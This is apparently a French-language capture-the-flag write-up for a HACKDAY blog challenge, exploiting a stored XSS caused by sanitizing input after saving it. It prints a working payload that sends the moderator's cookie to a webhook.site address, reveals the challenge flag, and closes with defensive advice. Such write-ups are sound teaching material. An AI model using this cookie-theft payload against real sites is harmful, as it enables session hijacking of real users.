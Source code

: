 ### **Exploitation d'une faille XSS dans un blog avec visite de modérateur**

![Screenshot](images/blog_chall.png)

Dans ce challenge, on a un blog avec un système d'enregistrement et de connexion des utilisateurs.  
On sait que l'**admin (ou le bot modérateur) visitera notre profil** lorsqu'on s'enregistre et lorsqu'on poste un article.

Un **leak du code source** est également présent.

![Screenshot](images/blog_leak.png)

---

### **Étape 1 : Analyser le code source**

En regardant le leak de code, on remarque une **tentative de sanitization** des champs, mais celle-ci est effectuée **après le `.save()`**, ce qui signifie que **même si une erreur s'affiche, les données sont déjà enregistrées en base**.

Le modérateur va **visiter notre profil** après la création du compte et l'ajout d'un article.

---

### **Étape 2 : Tester une première injection XSS**

J'ai d'abord essayé un payload XSS basique :

`<script> alert(1) </script>`

Mais une erreur s'affiche :

![Screenshot](images/blog_error.png)

---

### **Étape 3 : Déterminer quel champ est vulnérable**

J'ai testé différents payloads en créant plusieurs comptes pour identifier **le champ exploitable**.

![Screenshot](images/blog_alert1.png)

Après avoir obtenu un token d'enregistrement, j'ai accédé à mon profil via `/user?token=$token`.

![Screenshot](images/blog_alert.png)

Résultat : Un `alert(2)` s'affiche, **confirmant que le champ `name` est vulnérable**.

---

### **Étape 4 : Exploiter la faille avec un vol de cookie**

Maintenant que l'on sait que le champ `name` est exploitable, nous allons injecter un payload XSS pour voler le cookie du modérateur.

Payload utilisé :

`<script> window.location.href = "https://webhook.site/66a3fb27-4a91-4cae-8c0e-a5f9dd8385e1?cookie=" + document.cookie </script>`

Nous enregistrons un compte avec ce **payload dans le champ `name`**, et attendons que le modérateur visite notre profil.

Le payload est exécuté, et redirige vers notre **webhook** qui capture le cookie du modérateur.

![Screenshot](images/blog_webhook.png)!

---

### **Étape 5 : Création d'un article pour finaliser l'attaque**

Pour maximiser nos chances d'exécution, nous créons également un article sur le blog avec le même payload.

[Screenshot](images/blog_article.png)

Après un moment, nous vérifions notre **endpoint webhook**, et **le cookie contenant le flag est capturé !**

🔗 **URL du webhook avec le flag récupéré :**  
`https://webhook.site/66a3fb27-4a91-4cae-8c0e-a5f9dd8385e1?cookie=FLAG=HACKDAY{0rd3R_M4tteRs_In_Ur_C0d3!!!!}`

---

### **Conclusion**

Ce challenge démontre l'importance d'un **bon ordre des opérations** dans le code d'une application web.  
Ici, la **sanitization des entrées après enregistrement** a permis d'exploiter un **XSS stored**, ce qui a conduit à une **compromission totale** via le vol de session du modérateur.

➡ **Protection contre ce type d'attaque :**

- Toujours **sanitiser et valider les entrées avant de les enregistrer**.
- Activer `HttpOnly` sur les cookies pour éviter leur vol via JavaScript.
- Utiliser **Content Security Policy (CSP)** pour limiter l'exécution de scripts malveillants.
- Mettre en place des **filtres stricts** sur les champs utilisateur.
